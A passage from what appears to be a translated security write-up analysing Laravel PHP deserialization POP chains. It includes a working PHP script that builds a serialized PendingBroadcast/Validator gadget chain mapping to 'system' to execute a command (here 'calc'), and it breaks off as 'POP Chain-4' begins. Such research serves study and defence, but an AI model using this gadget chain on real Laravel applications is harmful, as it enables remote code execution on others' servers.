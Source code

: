 ```php
?>
```
### POP chain utilization flow chart

![](https://p4.ssl.qhimg.com/t01fd65d2d1dcf5a1ee.png)

## POP Chain-3
Continue to look for the available `__call()` method above, follow up on the `__call()` method in `src/Illuminate/Validation/Validator.php`, first perform the string operation and intercept the characters after the eighth character of `$method`. Since the string passed is `dispatch`, it is exactly eight characters, so it is empty after passing in. Then, call the `callExtension()` method through the if logic to trigger the `call_user_func_array` method

![undefined](https://p4.ssl.qhimg.com/t01efbb54c2cba095e0.png "undefined")

### ex
p
```php
<?php
namespace Illuminate\Validation {
    class Validator {
       public $extensions = [];
       public function __construct() {
            $this->extensions = ['' => 'system'];
       }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Validation\Validator;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($cmd)
        {
            $this->events = new Validator();
            $this->event = $cmd;
        }
    }
    echo base64_encode(serialize(new PendingBroadcast('calc')));
}
?>
```
### POP chain utilization flow chart
![](https://p0.ssl.qhimg.com/t01ddaee826a4457217.png)

## POP Chain-4
Follow up on the `__call()` method in `src/Illuminate/Support/Manager.php`, which calls the `driver()` method
